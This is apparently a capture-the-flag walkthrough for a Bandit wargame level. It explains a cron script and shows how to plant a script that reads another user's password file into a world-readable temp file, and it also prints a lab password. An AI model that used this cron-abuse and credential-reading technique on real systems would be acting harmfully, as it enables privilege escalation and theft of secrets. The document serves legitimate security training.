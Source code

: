 Level password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Same first step as the last 2 levels. But the bandit24 crontab script is different:

```sh
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

```sh
for i in * .*;
```

This loops over each file within the current directory. `*` matches regular files, `.*` matches hidden files.

```sh
if [ "$i" != "." -a "$i" != ".." ];
```

This skips over files that's named `.` or `..`, which are important directories (special entries).

```sh
owner="$(stat --format "%U" ./$i)"
```

This gets the owner of the file to be executed name.

```sh
stat --format "%U" ./$i
```

`stat` displays the file status and important information about files, `--format "%U"` allows outputting the specified format instead of the default, which outputs the file owner's username.

```sh
if [ "${owner}" = "bandit23" ]; then
	timeout -s 9 60 ./$i
fi
```

This checks whether the owner of the file is `bandit23`. If it is then it executes it. But it will timeout after 60 seconds. When it timeout, it sends a signal `9` to the process. The 9th signal is the `kill` signal (use `kill -l` to list the signals. Signal `9` is the `KILL` signal).

```sh
rm -f ./$i
```

This force delete the current file being processed.

What we can extract from this script is that this crontab executes any files in the `/var/spool/current_username/foo/` and delete it. Specifically, for files that is owned by user *bandit23* (aka us), it would run the executable for 60 seconds then kill it. This means the script would run with the permissions of user *bandit24*. So we could create our own script and to read the password of bandit24 and write it into a file that we could access:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/temp_dir/password.txt
```

Before we could do anything, we need to modify the permission so that the crontab could access the directory that houses the password file, the password file itself, and the permission of the script itself:

```sh
chmod o+rx script.sh
chmod o+rwx /tmp/temp_dir # x so that the cronjob can access the directory
chmod o+rw password.txt
```

Then we copy the script to the `/var/spool/bandit24/foo/` directory and wait for it to execute:

```sh
cp script.sh /var/spool/bandit24/foo/
```